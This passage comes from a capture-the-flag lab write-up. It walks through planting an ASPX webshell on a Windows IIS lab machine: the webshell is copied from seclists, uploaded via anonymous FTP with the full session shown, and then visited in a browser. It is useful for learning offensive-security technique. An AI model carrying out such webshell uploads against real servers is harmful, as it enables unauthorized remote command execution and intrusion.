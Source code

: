 And done, we have our administrator shell! For the second part, we'll forget all about this and try the attack ourselves, and we'll come back to claim the flags at the end. If you don't care about the manual approach, you can scroll right to the end of that section to see how we claim the flags.

## Manual Exploitation

Now let's get our hands dirty and prove our worth. We will get the job done without cheating with Metasploit. We cannot use pre-made MSF payloads, so we'll find our own "webshell" of the ASPX format at `/usr/share/seclists/Web-Shells/FuzzDB/cmd.aspx`. Let's upload it:

```bash
$ cp /usr/share/seclists/Web-Shells/FuzzDB/cmd.aspx .

$ ftp anonymous@10.10.10.5

Connected to 10.10.10.5.
220 Microsoft FTP Service
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.

ftp> dir
229 Entering Extended Passive Mode (|||49162|)
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
03-17-17  05:37PM                  689 iisstart.htm
04-19-25  01:13PM                   13 kaas.txt
03-17-17  05:37PM               184946 welcome.png
226 Transfer complete.

ftp> put cmd.aspx
local: cmd.aspx remote: cmd.aspx
229 Entering Extended Passive Mode (|||49163|)
125 Data connection already open; Transfer starting.
100% |*********************************************************************|  1442       35.26 MiB/s    --:-- ETA
226 Transfer complete.
1442 bytes sent in 00:00 (246.05 KiB/s)

ftp> exit
221 Goodbye.
```

Now let's go back to the browser and visit `/cmd.aspx`:

![behold our webshell](./images/cmd.aspx.png)
